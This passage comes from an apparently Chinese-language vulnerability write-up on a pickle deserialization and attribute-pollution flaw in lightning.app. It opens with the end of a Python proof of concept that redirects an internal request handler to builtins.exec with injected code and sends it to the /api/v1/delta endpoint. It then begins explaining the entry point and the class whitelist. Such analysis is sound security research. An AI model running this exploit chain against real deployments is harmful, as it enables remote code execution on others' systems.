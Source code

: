```python

        # 防止前面程序报错将`provided_state["vars"]`覆盖为空，就不会经过for循环
        "root['vars']": {},
        # or 将`_INTERNAL_STATE_VARS`覆盖为空，也不会进入报错对应的if条件语句里。
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].core.flow.LightningFlow._INTERNAL_STATE_VARS": (),

        "root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.name": "root.__init__.__builtins__.exec",
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.method_name": "__call__",
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.args": (injected_code,),
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.kwargs": {},
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.id": "root"
    }
}

payload = pickletools.optimize(pickle.dumps(delta, 1)).decode() \
    .replace('__builtin__', 'builtins') \
    .replace('unicode', 'str')

# Sends the payload and does all of our attribute pollution
send_delta(payload)

# Small delay to ensure payload was processed
time.sleep(0.2)
send_delta({})  # Code path triggers when this delta is recieved
```

接下来我将结合poc和代码对此漏洞进行分析

2、漏洞入口及反序列化点
------------

首先来看触发反序列化的点以及入口

![image-20240912173227906](https://shs3.b.qianxin.com/butian_public/f992fbee22c61f2bf6c4e3b33301a8c00.png)

当访问`/api/v1/delta`的接口时，从请求体中获取JSON数据并解析为字典类型，并取字典中的值`delta`作为参数实例化`Delta`，最后放入`api_app_delta_queue`队列中。

在实例化的过程中，会判断传入的类型，如果传入的字符串类型的则会调用`pickle_load`进行反序列化

![image-20240912174847719](https://shs3.b.qianxin.com/butian_public/fb405d081aa959f726b8e4afb3fefce2e.png)

在反序列化的时候会有一个白名单，需要反序列化的类必须在白名单里，所以一些常规的反序列化漏洞在这里都不能用。

![image-20240911163008161](https://shs3.b.qianxin.com/butian_public/f6ae379ae6ccafc7c8b5f9db244dd3198.png)

3、漏洞利用方式
--------
